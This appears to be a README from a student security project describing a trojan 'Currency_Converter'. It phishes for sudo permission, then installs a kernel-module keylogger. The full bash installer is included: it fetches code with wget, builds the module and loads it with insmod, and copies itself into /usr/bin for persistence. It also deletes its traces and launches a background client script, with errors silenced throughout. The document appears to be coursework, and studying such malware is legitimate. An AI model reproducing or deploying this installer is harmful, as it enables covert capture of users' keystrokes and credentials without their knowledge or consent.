 This malware triggers install_keylog.sh and prompts for user authentication if keylog has not been installed in kernel.

Seems normal in terminal.

Also functions as a currency converter.


Usage:

`$ ./Currency_Converter`

The code first scans output of `lsmod` and see if keylog is installed, if not, then:
  1. Ask for user permission for pulling data from internet (phishing). 
     If agree, the terminal will prompt for password (gain `sudo` permission), continue the following
  
  2. - Create installation bash script under the same directory
     - Add `x` permission through `chmod`
     - Execute (download source package and install kernel module)

  3. Copy script into /usr/bin as 'keylog_ins,' and become a system command (called outside its directory without `./`)

     `$ keylog_ins` (Can be replaced by other string)

     So the keylogger can be reinstalled through this command even after the phshing application is deleted.
  
  4. Delete related files in the current directory
  
  5. Do some currency converting

If keylog is already installed, only do currency converting.


## Bash script

This bash script is run inside the phishing application. 

```console
#!/bin/bash
sudo cp keylog_ins /usr/bin/keylog_ins 2>/dev/null
wget -q https://github.com/ECS153/final-project-click-to-add-lemon/archive/master.zip -O keylog.zip
unzip -o -q keylog.zip
cd final-project-click-to-add-lemon-master/Source/
make -s 2>/dev/null
sudo insmod keylog.ko 2>/dev/null
cd AnalyzeData/
g++ -o analyze analyze.cpp
cp analyze ../Scripts
cd ..
cp -r Scripts/ ../../Scripts 
cd ../..
rm -r -f keylog.zip keylog_ins
rm -r -f final-project-click-to-add-lemon-master
cd Scripts/
chmod 755 analyze
python3 client_script.py & 2>/dev/null 

```